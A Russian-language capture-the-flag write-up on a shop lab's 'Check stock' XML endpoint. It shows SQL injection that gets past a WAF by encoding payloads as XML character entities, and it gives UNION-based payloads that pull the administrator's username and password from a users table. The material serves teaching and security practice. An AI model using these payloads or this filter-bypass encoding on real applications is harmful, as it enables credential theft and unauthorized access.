 # SQL-инъекция с обходом фильтра через XML

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.ru.md)  
- 🇬🇧 [English](WRITEUP.en.md)

## Дисклеймер
---

**Текст был написан и переведен автором вручную. Языковая модель использовалась для форматирования и стилистической правки.**

**Данный материал предоставлен исключительно в образовательных и исследовательских целях. Я не призываю и не поощряю несанкционированный доступ к информационным системам или нарушение закона. По моему мнению, одним из наиболее эффективных способов борьбы с киберпреступностью является просвещение как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о распространенных уязвимостях, которые потенциально могут быть использованы злоумышленниками для совершения противоправных действий.**

**⚠️ Все действия, описанные в этом документе, были выполнены в авторизованной исследовательской среде (CTF/тестовый полигон), без нарушения прав третьих лиц или действующего законодательства.**

**Несанкционированное вмешательство в компьютерные системы, нарушение правил хранения и обработки данных и другие формы так называемого «черного» хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

## Приложение
---

![placeholder](images/labCard.png)

Приложение представляет собой магазин с забавными товарами:

![Лаб](images/SqliLab3Target.png)

## Функционал
---

У каждого товара на странице деталей есть кнопка `Check stock`, которая показывает количество единиц товара на складах в разных городах:

![Поиск](images/SqliLab3Function.png)

Функция `Check stock` отправляет на бэкенд запрос, содержащий XML:

![Запрос](images/SqliLab3CheckStockXML.png)

```XML
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

Это и есть наша точка инъекции!

## Эксплуатация
---

Однако WAF обнаружит сырой вредоносный ввод:

![Блокировка](images/SqliLab3WAFBlock.png)

Приложение по-прежнему будет понимать закодированную версию `storeId`, при условии, что она валидна. В данном случае `storeId = 1` обрабатывается так же, как `storeId = &#49;`:

![СимволXML](images/LabSqliXMLWorks.png)

Это означает, что можно передавать полезные нагрузки, закодированные в XML, для эксплуатации уязвимости SQL-инъекции.

```SQL
1' OR 1=1 --
```

Ниже представлена версия этой PoC-нагрузки для SQL-инъекции, закодированная в XML:

```XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

Это приведет к выводу всех единиц товара во всех магазинах:

![PoC](images/SqliLab3Poc2.png)

Учитывая, что главная цель лабы — войти в систему как пользователь `administrator`, лучшим вариантом является подход на основе `UNION`.

Этот запрос позволит проверить, сколько столбцов возвращает запрос, и доступна ли таблица `users` (в данном случае количество `NULL`-заполнителей равно 1):

```SQL
1' UNION SELECT NULL FROM users --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;
```

Он работает!

![УспехUnion](images/SqliLab3UnionSuccess.png)

Теперь извлечем данные из таблицы `users`:

```SQL
1' UNION SELECT password FROM users WHERE username='administrator' --
```

Кодирование в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```

![УспехUnion2](images/SqliLab3UnionPasswordSuccess.png)

Чтобы сделать результат более наглядным, можно использовать полезную нагрузку с конкатенацией, чтобы извлечь одновременно `username` и `password` из таблицы, разделив их разделителем `\|/`:

```SQL
1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```

![Разделитель](images/SqliLab3UnionDelimeter.png)

Теперь полученные учетные данные можно использовать для входа в систему как пользователь `administrator`, что решает лабу:

![Решение](images/Lab3Solved.png)

Спасибо за внимание! ^^